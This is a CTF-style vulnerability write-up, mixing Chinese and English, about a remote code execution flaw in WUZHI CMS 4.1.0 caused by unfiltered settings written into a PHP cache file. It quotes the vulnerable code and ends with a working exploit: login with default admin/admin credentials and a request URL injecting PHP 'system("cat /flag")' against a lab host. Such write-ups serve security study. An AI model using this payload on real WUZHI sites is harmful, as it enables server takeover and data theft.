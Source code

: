 ## 1. 漏洞介绍
[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2020-20124)
## 2. 漏洞分析
[Remote Code Execution Vulnerability In WUZHI CMS v4.1.0 · Issue #188 · wuzhicms/wuzhicms · GitHub](https://github.com/wuzhicms/wuzhicms/issues/188)

In the set_cache method of the \coreframe\app\core\libs\function\common.func.php file, when $data is not of the array type, $data will be written directly to the php file.

```php
function set_cache($filename, $data, $dir = '_cache_'){
	static $_dirs;
	if ($dir == '') return FALSE;
	if (!preg_match('/([a-z0-9_]+)/i', $filename)) return FALSE;
	$cache_path = CACHE_ROOT . $dir . '/';
	if (!isset($_dirs[$filename . $dir])) {
		if (!is_dir($cache_path)) {
			mkdir($cache_path, 0777, true);
		}
		$_dirs[$filename . $dir] = 1;
	}

	$filename = $cache_path . $filename . '.' . CACHE_EXT . '.php';
	if (is_array($data)) {
		$data = '<?php' . "\r\n return " . array2string($data) . '?>';
	}
	file_put_contents($filename, $data);
}
```

The set_cache method is called in the set method of the \coreframe\app\attachment\admin\index.php file, and $GLOBALS['setting'] has not been filtered，so anything can be written to the php file.

```php
    public function set()
    {
        if (isset($GLOBALS['submit'])) {
            set_cache(M, $GLOBALS['setting']);
            MSG(L('operation_success'), HTTP_REFERER, 3000);
        } else {
            $show_dialog = 1;
            load_class('form');
            $setting = &$this->_cache;
            if(!isset($setting['show_mode'])) {
				$setting = array('show_mode'=>2,'watermark_enable'=>1,'watermark_pos'=>0,'watermark_text'=>'www.wuzhicms.com');
				set_cache(M, $setting);
			}
            include $this->template('set', M);
        }
    }
```

Finally, on line 21 of \coreframe\app\attachment\admin\index.php, a php file that can write arbitrary content will be loaded.  

`$this->_cache = get_cache(M);`

## 3. 漏洞复现
弱口令登录 admin/admin

burp suite 抓包重放读取 flag【由于缓存原因可多次尝试】

`http://eci-2…………9.cloudeci1.ichunqiu.com/www/index.php?m=attachment&f=index&v=set&_su=wuzhicms&submit=1&setting=<?php system("cat /flag");?>`

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310031237875.png)
